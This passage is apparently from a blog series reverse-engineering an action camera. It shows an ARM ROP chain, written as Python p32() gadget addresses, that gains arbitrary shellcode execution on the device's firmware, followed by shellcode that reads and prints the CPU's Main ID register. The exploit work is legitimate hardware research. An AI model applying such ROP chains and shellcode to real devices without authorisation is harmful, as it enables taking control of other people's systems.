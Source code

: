 ```
# - c05c20b4 - address of fread

# | c040b604 | ldr r8,[r10,#0xbc4] | c040b608 | blx r3 |

# c0426d4c 00 30 a0 e1     cpy        r3,r0
# c0426d50 04 20 a0 e1     cpy        r2,r4
# c0426d54 07 10 a0 e1     cpy        r1,r7
# c0426d58 08 00 a0 e1     cpy        r0,r8
# c0426d5c 36 ff 2f e1     blx        r6

# | 0xc03edf0c | c03edf0c | blx r5 | c03edf14 | ldmia sp!,{r4,r5,r6,r7,r8,r9,r11,pc} | 
rop_chain += p32(0x00000000) # r4
rop_chain += p32(0x00000000) # r5
rop_chain += p32(0x00000000) # r6 
rop_chain += p32(0xc03edf0c) # r7
rop_chain += p32(0xc08e4ee0) # r8 
rop_chain += p32(0x00000000) # r9
rop_chain += p32(0x00000000) # r11
rop_chain += p32(0xc057248c) # pc

# | 0xc057248c | c057248c | ldr r5,[r8,#0x0] | c0572490 | blx r7 | 
# | 0xc03edf0c | c03edf0c | blx r5 | c03edf14 | ldmia sp!,{r4,r5,r6,r7,r8,r9,r11,pc} | 
```

So now we can execute as much arbitrary shellcode as we want! Note that we will still need to do the expected fix up to continue execution.

# Testing Shellcodes

Now that we have got execution, lets see if we can use our new found access to answer earlier questions.

## What is the CPU?

ARM CPUs have a Main ID register (MIDR) which can be fetched with **mrc p15, #0, r1, c0, c0, #0**. The response can be broken down into the following:

![midr.png](/assets/images/analysing_an_action_camera_part_4/midr.png)

Here is a shellcode I put together to fetch this register and print the contents:

```
-python
    @ load chip ID register
    mrc p15, #0, r1, c0, c0, #0
    @ print chip ID
    adr r0, fmt_string
    ldr r3, =0xc01a79a0
    blx r3
    @ print fixing state string
    adr r0, fixing_state_string
    ldr r3, =0xc01a79a0
    blx r3
    @ fixup
```